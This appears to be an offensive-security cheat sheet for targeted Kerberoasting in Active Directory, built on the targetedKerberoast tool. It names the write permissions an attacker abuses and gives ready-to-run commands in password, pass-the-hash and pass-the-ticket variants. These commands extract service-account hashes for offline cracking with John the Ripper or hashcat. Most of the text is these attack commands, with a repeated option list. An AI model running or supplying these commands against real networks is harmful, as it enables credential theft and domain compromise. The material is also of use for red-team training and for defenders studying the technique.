 # targetedKerberoast

% acl, GenericWrite
#plateform/linux #target/remote #cat/ATTACK/DACL-ABUSE

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
```

## targetedKerberoast (cred)
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -p <password> --dc-ip <dc_ip>
```

## targetedKerberoast (pth)
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -H <nt_hash> --dc-ip <dc_ip>
```

## targetedKerberoast (ptt)
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
export KRB5CCNAME=<ticket>
targetedKerberoast.py -v -d <domain> -k --no-pass --dc-ip <dc_ip>
```


